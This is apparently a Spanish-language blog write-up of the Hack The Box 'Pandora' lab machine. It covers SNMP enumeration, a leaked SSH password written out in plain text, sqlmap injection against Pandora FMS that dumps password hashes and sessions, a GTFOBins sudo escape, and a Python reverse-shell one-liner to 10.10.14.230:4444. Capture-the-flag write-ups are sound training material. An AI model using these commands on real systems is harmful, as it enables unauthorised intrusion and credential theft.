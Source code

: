 ```yaml
---
layout: post
author: Sergio Salgado
---
```

# [](#header-1)Pandora HtB

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
Esta maquina es una de las faciles de HtB, su sistema operativo es Ubuntu linux. E intentaremos llegar a las flags de la maquina.

- <a href="#desarrollo">Desarrollo</a>
Despues del primer escaneo, ingresamos al servicio web y mientras navegamos no encontramos nada importante. Pero si descubrimos un dominio, el cuel integraremos en nuestro archivo /etc/hosts. Para posteriormente, realizar otro escaneo dirigido al dominio.

![Nmap segundo scanning](/assets/images/pandora/nmap2PANDA.png)

Podemos observar que la maquina corre un servicio de snmpv1, el cual es usado para la administracion y monitoreo de la red. Y hasta la version 2 se mandan mensajes en texto limpio. Solamente la version 3 que es el mas reciente cuenta con encriptacion y autenticacion. SNMP almacena informacion en una estructura llamada MIB (Management Information Base). Esta es una estructura relacional que considera que informacion puede ser leida, escrita y accesible. Este utiliza identificadores OIDs. Pero esto nos es tan importante, solo es la informacion basica.

Para sacar informacion de la maquina que corre este servicio, la peticion se manda con un metodo GET a la maquina, con unstring para autentificarse el mismo. SNMP usa 2 strings diferentes llamados strings comunitarios, para autenticacion con maquinas. El string de solo lecturaes usualmente solo para informacion para lectura unicamente, y el atributo de lectura y escritura, son permisos para modificar alguna informacion. Lo importante de estos strings comunitarios, es que no pasan por ninguna encriptacion en hashes, son atomicos y faciles de crackear. Se utilizo esta <a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt">lista</a> para encontrar los strings comunitarios de la maquina.

Intentaremos usar diferentes herramientas para descubrir informacion sobre este servicio encontrado 
Con el modulo scanner/snmp/snmp_login de msfconsole, encontramos la version del sistema operativo y del servicio snmp
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP y un community string que generalmente se usa llamado “public” 

Nos instalamos la herramienta
```sc
sudo apt-get install snmp-mibs-downloader
download-mibs
```

Ya que conocemos un string usado, podemos proceder a usarlo para acceder a los datos transmitidos con el comando:

```sc
snmpwalk -v 1 -c public panda.htb
```
![Primer scan con snmpwalk](/assets/images/pandora/snmpwalk1.png)
La herramienta anterior es un poco lenta y agresiva, para hacerlo mas rapido, podemos usar otra herramienta, que su sintaxis es:

```sc
braa public@10.10.11.136:.1.3.6.*
```
![Braa](/assets/images/pandora/braa.png)

Encontramos 3 palabras clave, las cuales pueden ser
- Email addresses
- SNMP community strings
- Password hashes
- Clear text passwords


Después con la herramienta snmpenum, seguiremos recopilando informacion de la maquina

```sc
snmpenum 10.10.11.136 public linux.txt
snmpwalk -c public -v2c -On 10.10.11.136

```
Despues de encontrar los strings comunitarios, se uso una herramienta llamada snmpwalk para enumerar toda la informacion que se pudo. 

```sc
snmpwalk -v 1 -c public panda.htb > snmpwalk-1.txt
```
![Segundo scan con snmpwalk](/assets/images/pandora/snmpwalk_pass.png)

Como podemos ver, se ha encontrado en texto plano un usuario y contrasena, asi que la usaremos para loggearnos por SSH en la maquina.

La flag de usuario esta en otro directorio de usuario, asi que buscaremos la manera de cambiar de usuario. El primer objetivo es **/var/www/html** y **/var/www/pandora**. El lado de html es visible para el publico, pero pandora es nuevo. Dentro del archivo /etc/hosts vemos unas asignaciones, asi que las usaremos como ventaja.

Si asumimos que estos hostnames entraran en el directorio de pandora, entonces necesitaremos establecer un tunel dinamico. Esto se puede hacer con:
```sc
ssh -D 9090 daniel@panda.htb
```

Usando este tunel, podemos ahora configurar un proxy para ver la pagina web.
Nota Estos deben ser SOCKS5 ya que este soporta resolucion de DNS.

![Configuracion de Proxy](/assets/images/pandora/proxy_config.png)

![Prueba del proxy](/assets/images/pandora/proxy_working.png)

Navegaremos a localhost.localdomain/pandora_console y nos mostrara una pagina para logearnos para algun software llamado pandora FMS. Para nustra suerte, existen muchos CVEs para este software, y este <a href="https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/">post</a> especificamente nos muestra que los parametros **chart_generator.php** files **session_id** son vulnerables. Para usar sqlmap para esto, necesitaremos antes una gran herramienta llamada proxychains. Proxichains esta disenada para hacer una cadena de proxies que te permiten usar tus herramientas en otras maquinas sin tener que instalarlas en el otro lado. Para usarlo necesitas especificar el tunel dinamico en el archivo /etc/proxychains4.conf

```sc
socks5 127.0.0.1 9090 daniel HotelBabylon23
```
![Proxychain config file](/assets/images/pandora/proxychain_conf.png)

Despues de configurarlo podemos ejecutar el ataque sqli contra el archivo generador de caracteres. 

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables
``` 
![Sqlmaping with proxychain](/assets/images/pandora/sqlmap_pass.png)

La tabla en la que estamos interesados es **tpassword_history**. Despues de llegar a ella, obtenemos unas contrasenas con hashes para daniel y matt. Al ver los hashes, se puede ver que pueden ser MD5, o podemos utilizar la <a href="https://hashes.com/es/tools/hash_identifier">herramienta</a> para identificar que tipo de hashes se utilizaron.

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -Ttpassword_history --dump
``` 

Tambien en los id de sesiones de php que estan guardados en la tabla **tsessions_php** 

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -Ttsessions_php --dump
``` 

![Php sessions con sqlmap](/assets/images/pandora/php_sessions.png)

Ahora podemos copiar una de las sesiones de matt en el url y ver si funciona.

Y como lo mencionamos, esto nos trae al dashboard. Desafortunadamente a pesar de esto , no se pudo establecer una shell mediante alguna injeccion de sql o algo visible. Pero utilizando esta <a href="https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py">herramienta</a>, pudimos entrar como matt y leer la primer flag en /home/matt/user.txt.

```sc
proxychains python3 [pythontool].py -t localhost.localdomain
``` 

![Admin cookie](/assets/images/pandora/admin_cookie.png)


Hasta este punto, nos damos cuenta de que estamos en un ambiente restringido, ya que el comando sudo nos arrojo una respuesta extrana que se ha visto en otras maquinas. Asi que para seguir con esto hay que revisar los binarios para suid bits, y ahi encontraremos en **/usr/bin/at** cosas de sudo. Una vez con esto, podemos usar <a href="https://gtfobins.github.io/gtfobins/at/#sudo">el script de gtfobins</a> y nos permitira movernos a travez de la restriccion y asi poder navegar con una shell con privilegios elevados.

Para poder ejecutar comandos con sudo, sin restricciones:

```sc
echo "/usr/bin/at <$(tty) >$(tty) 2>$(tty)" | sudo at now; [COMMAND]
``` 
Para tener una shell mas bonita, sumamos el script anterior y le adjuntamos el reverse shell de python, usamos el reverse shell hecho en python

```py
 python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.230",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
``` 
Del lado de kali, ejecutamos el netcat:

```sc
nc -lvp 4444
``` 
Cuando estaba intentando quitarme la restriccion , encontre un binario en /usr/bin llamado pandora_backup. Lo descargue a mi maquina e hice unas pruebas y al parecer utiliza el comando tar para comprimir archivos. Asi que cree un archivo tar malicioso y lo ejecute para ganar el privilegio de root.



